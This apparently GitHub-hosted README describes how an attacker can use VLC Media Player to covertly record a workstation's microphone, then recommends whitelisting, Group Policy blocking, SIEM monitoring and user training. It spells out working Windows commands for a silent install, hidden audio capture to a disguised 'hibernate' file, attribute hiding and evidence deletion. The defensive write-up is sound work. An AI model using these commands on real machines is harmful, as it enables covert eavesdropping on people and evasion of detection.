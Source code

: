 README.MD: Preventing Unauthorized Eavesdropping Using VLC Media Player
=======================================================================

Overview
--------

This document outlines a malicious process that can be used to eavesdrop on conversations using the microphone of a workstation. It also provides recommendations for organizations to prevent such unauthorized activities by blocking VLC Media Player or implementing log and event monitoring as deterrent measures.

Malicious Process
-----------------

The following commands demonstrate how an attacker can use VLC Media Player to record audio from a workstation's microphone and hide the recorded file:

1.  This command installs VLC Media Player silently, waits for 40 seconds, and then deletes the installer and any desktop shortcuts created.`  C:\vlcsetup.exe /S & ping 0.0.0.0 -n 40 >/nul & del /F /Q "%systemdrive%\Users\Public\Desktop\VLC media player\*\*" & del C:\vlcsetup.exe`
    
2. This command starts VLC in a single instance mode, captures audio from the default audio device, and saves the recording to a file named `hibernate` in the root of the C drive. The hibernate file mentioned in the commands is not a standard system file but rather a custom-named file used by the attacker to store the recorded audio. The name hibernate is chosen to make the file less conspicuous, as it might be mistaken for a system file related to hibernation. `C:\Progra~1\VideoLAN\VLC\vlc.exe --one-instance dshow:// :dshow-vdev=none :dshow-adev :sout=#transcode{vcodec=h264,scale=Auto,acodec=mpga,ab=128,channels=2,samplerate=44100}:duplicate{dst=std{access=file,mux="ogg",dst="C:\hibernate"}}`
    
3.  attrib +h +s C:\hibernateThis command sets the **hibernate** file as hidden and system, making it less likely to be noticed by the user.
    
4.  taskkill /f /im vlc\* & ping 0.0.0.0 -n 5 >/nul & attrib -h -s C:\hibernateThis command forcefully terminates any VLC processes, waits for 5 seconds, and then removes the hidden and system attributes from the **hibernate** file.
    
5.  del C:\hibernate & taskkill /f /im cmd\*This command deletes the **hibernate** file and forcefully terminates any Command Prompt processes.
    

Prevention Measures
-------------------

To prevent unauthorized eavesdropping using VLC Media Player, organizations can implement the following measures:

### 1\. Block VLC Media Player

*   **Application Whitelisting:** Implement application whitelisting to prevent unauthorized software, including VLC Media Player, from being installed or executed.
    
*   **Group Policy:** Use Group Policy Objects (GPO) to block the installation and execution of VLC Media Player on all workstations.
    

### 2\. Log and Event Monitoring

*   **Audit Logs:** Enable and monitor audit logs for any suspicious activities, such as the creation and deletion of files, and the execution of unauthorized processes.
    
*   **Event Monitoring:** Implement a Security Information and Event Management (SIEM) system to monitor and analyze events in real-time, allowing for quick detection and response to any unauthorized activities.
    

### 3\. User Education

*   **Training:** Educate users on the importance of not installing unauthorized software and the risks associated with phishing attacks and malicious downloads.
    
*   **Reporting:** Encourage users to report any suspicious activities or emails to the IT department.
    

Conclusion
----------

The malicious process outlined in this document highlights the potential security risks associated with unauthorized use of software like VLC Media Player. By implementing the prevention measures described, organizations can significantly reduce the likelihood of unauthorized eavesdropping and protect their sensitive information.

Regularly reviewing and updating security policies, procedures, and technologies is essential to maintain a strong security posture in the face of evolving threats.

**Disclaimer:** This document is intended for educational and informational purposes only. The misuse of the information provided can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this document to break the law.